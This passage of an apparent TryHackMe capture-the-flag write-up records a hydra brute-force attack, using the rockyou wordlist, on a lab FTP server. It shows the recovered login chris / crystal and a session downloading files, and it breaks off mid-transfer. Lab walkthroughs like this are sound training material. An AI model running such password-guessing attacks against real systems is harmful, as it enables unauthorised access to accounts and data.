 **Answer the questions below :**
    - How many ports are open there ? 
    -> 3
    - How you redirect yourself to a secret page?
    -> user-agent
    - How you redirect yourself to a secret page?
    -> chris

### Bruteforcing

#### Bruteforcing Ftp server
**Brute forcing FTP server.**
```
┌──(selenophile㉿selenophile)-[~/Documents/Hacking/Try hack me]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.233.17/
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-02 19:29:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.233.17:21/
[STATUS] 159.00 tries/min, 159 tries in 00:01h, 14344240 to do in 1503:36h, 16 active
[21][ftp] host: 10.10.233.17   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-02 19:31:03
```
**Connected to FTP server using credentials** `user: chris , password: crystal`
```
┌──(selenophile㉿selenophile)-[~/Documents/Hacking/Try hack me]
└─$ ftp 10.10.233.17
Connected to 10.10.233.17.
220 (vsFTPd 3.0.3)
Name (10.10.233.17:selenophile): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||9349|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||60910|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |******************************************************************************************|   217        2.91 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.09 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||47040|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |******************************************************************************************| 33143       40.99 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (33.03 KiB/s)
ftp> get cutie.png
```